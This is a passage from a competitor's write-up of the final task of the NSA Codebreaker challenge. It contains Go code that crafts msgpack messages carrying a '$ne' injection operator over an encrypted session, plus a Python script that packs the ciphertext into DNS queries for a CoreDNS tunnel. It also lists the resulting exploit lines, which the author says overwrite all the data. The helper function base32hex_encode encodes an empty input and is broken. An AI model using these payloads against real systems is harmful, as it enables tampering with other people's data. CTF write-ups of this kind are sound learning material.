	//loop for the normal bull
	for i := 0; i < 1; i++ {
		// Reset sessions at the start of each iteration
		initiatorSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)
		responderSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)

		
		data := NormalMessage {
			V: "m~~~~~~~",
			T: time.Now().UnixMilli(),
			D: 33032,
			M: 0,
		}
		
		payload, err := msgpack.Marshal(data)
		if err != nil {
			log.Fatal(err)
		}
		
		// Send message and get updated session
		sessionPtr, messageBuffer1, err := SendMessage(&initiatorSession, payload)
		if err != nil {
			fmt.Println("Error in SendMessage:", err)
			return
		}
		initiatorSession = *sessionPtr

		// Receive message and get updated session
		sessionPtr, _, valid1, err := RecvMessage(&responderSession, &messageBuffer1)
		if err != nil || !valid1 {
			fmt.Println("Handshake failed at responder")
		}
		responderSession = *sessionPtr
	}
	for i := 0; i < 1; i++ {
		// Reset sessions at the start of each iteration
		initiatorSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)
		responderSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)

		msgVersion := fmt.Sprintf("m-00-%03d", i)
	timestamp := time.Now().UnixMilli()+300000
	
	// Create a buffer for proper byte handling
	buf := new(bytes.Buffer)
	buf.Write([]byte{
		0x84,             // map with 4 entries
		0xa1, 0x76,       // "v"
		0xa8})            // string length 8
	buf.Write([]byte(msgVersion)) // first v value
	buf.Write([]byte{
		0xa1, 0x74,       // "t"
		0xcf})            // uint64 marker

	// Write timestamp as uint64 (proper Unix millisecond time)
	timestampBytes := make([]byte, 8) // Allocate 8 bytes for uint64
	binary.BigEndian.PutUint64(timestampBytes, uint64(timestamp))
	buf.Write(timestampBytes)

	buf.Write([]byte{
		0xa1, 0x76,            // second "v"
		0x81,                  // map with 1 entry
		0xa3, 0x24, 0x6e, 0x65, // "$ne"
		0x00,                  // value 0
		0xa1, 0x64, 0xc0,     // "d": null
		0xa1, 0x6d, 0xc0})    // "m": null

	payload := buf.Bytes()
		
		// Send message and get updated session
		sessionPtr, messageBuffer1, err := SendMessage(&initiatorSession, payload)
		if err != nil {
			fmt.Println("Error in SendMessage:", err)
			return
		}
		initiatorSession = *sessionPtr

		// Receive message and get updated session
		sessionPtr, _, valid1, err := RecvMessage(&responderSession, &messageBuffer1)
		if err != nil || !valid1 {
			fmt.Println("Handshake failed at responder")
		}
		responderSession = *sessionPtr
	}


	// loop twice to get the stuff
	for i := 0; i < 2; i++ {
		// Reset sessions at the start of each iteration
		initiatorSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)
		responderSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)

		hexStr := "84a176a86d2d30302d303130a17481a3246e6500a164c0a17681a3246e6500a16dc0"
    	payload, err := hex.DecodeString(hexStr)
		
		if err != nil {
			log.Fatal(err)
		}
		
		// Send message and get updated session
		sessionPtr, messageBuffer1, err := SendMessage(&initiatorSession, payload)
		if err != nil {
			fmt.Println("Error in SendMessage:", err)
			return
		}
		initiatorSession = *sessionPtr

		// Receive message and get updated session
		sessionPtr, _, valid1, err := RecvMessage(&responderSession, &messageBuffer1)
		if err != nil || !valid1 {
			fmt.Println("Handshake failed at responder")
		}
		responderSession = *sessionPtr
	}
```

These only provide the encrypted hex data, so I also used a python script to parse and base32hex encode the data to fit the requirements for the coredns tunnel, then write to sploit.txt to be used by thrower.py:

```
def base32hex_encode(hex_bytes):
    # Convert the hex byte list to bytes
    byte_data = bytes(hex_bytes)
    
    # Encode to base32hex and remove padding
    encoded = base64.b32hexencode(b'').decode('utf-8')
    
    return encoded.lower()  # Convert to lowercase as per standard
with open('output.txt', 'r') as file:
    domains = []
    data = file.readlines()
    data = [i.rstrip() for i in data]
    
    
with open("sploit.txt", "w") as file:
    for i in range(len(data)):
#group data 
    
    
# Your input hex bytesn
        byte_data = bytes.fromhex(data[i])

        
        new = base64.b32hexencode(byte_data).decode()
       
        domain = ('x' + new[:62] + 'y' *(62-len(new[:62])) + '.x' + new[62:62+62] + 'y' * (62-len(new[62:62+62])) + '.x' + new[62+62:] + 'y' * (62-(len(new[62+62:]))) + '.net-w77ls5pf' + '').replace("=", "z")
        
        #make sure we write out a sleep for 5 mins for the aggregate to work at then do our ting again
        if i == 3 or i == 1:
            file.write((f'sleep 300000')+"\n")
        file.write((f'resolve "{domain}"')+"\n")
    
```

Funneling this through a series of outputs: `go run main.go > output.txt | python3 dns_ping.py | python3 thrower.py run`, we get a sploit.txt that is run:

```
resolve "xAU0PSQN99MHN49SVE9C30U21R9HKTD41PUQR0L98J79NHL3CI5SN90PLTCPKFC.xH3R246BSJ15SFCE8J3D10NVBP7NUM3OHG3FTDQVD9V6C3IOUQ2B9E40NULC0MK.xJCNBMOALKDPO95MEQRO826LQ8zzzyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.net-w77ls5pf"
sleep 300000
resolve "xRUC9JBCQ0NEEJJUABRE6I2751OFOH4O6QCUJF26IG8EKT04RF5QO5EFQCIS0BV.x99OGLMEVO8A0RI12IV7FU8NKLQ93ITL39PVL34LB9MU048Q93AG8NGGBD7PKIH.x6DR5UTOM0HIUyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.net-w77ls5pf"
resolve "x3HDJ885SPELSKBLVAUFTKBNSLVMRCGEBAELO8LU0PCGUFM0JMO3QSTV6B97FQM.xT7H4ELU8QGOLGBQ093UAADKJ88MQVLC9I5VHSCHL19IKBKQOBEM3812GJ3H3IH.xV029TUBGzzzzyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.net-w77ls5pf"
sleep 300000
resolve "x1CTAH8S9Q3FAEDLQ089M12Q142UG5L4GGM2UTPI9P98U0HVD4DUHB6D5BMPOTR.x98RS5399K79MQ6LS00E7LMHL8Q4SB17JTR2FFGMQMDQRFU4N46GMQL0GTIJG6B.xUBT9OF80zzzzyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.net-w77ls5pf"
sleep 300000
```
Locally, after our exploit runs it works! All the data is overwritten!


I then reran the cmd pipeline, and *immediately* submitted the sploit.txt content, and waited for 5 minutes for the solver to grade the response.

And... WE SOLVE THE LAST TASK!!!! IT'S FINALLY OVER!!!!

## Epilogue

Well, it's truly been a journey. I'd like to thank the National Security Agency for creating + hosting such an amazing learning opportunity! Each step you read was the result of days of testing, debugging, and reverse engineering. I truly want to thank NSA CodeBreaker for elevating my problem solving and reverse engineering skills. It was just around a year or two ago when I struggled doing an easy level binary reversing challenge in PicoGym. I'm looking forward to next year's Codebreaker Challenge, and future reverse engineering / ctf competitions!

ps. I get a signed letter from the director of the NSA, a medallion, and a fidget spinner(?) for completing this challenge lol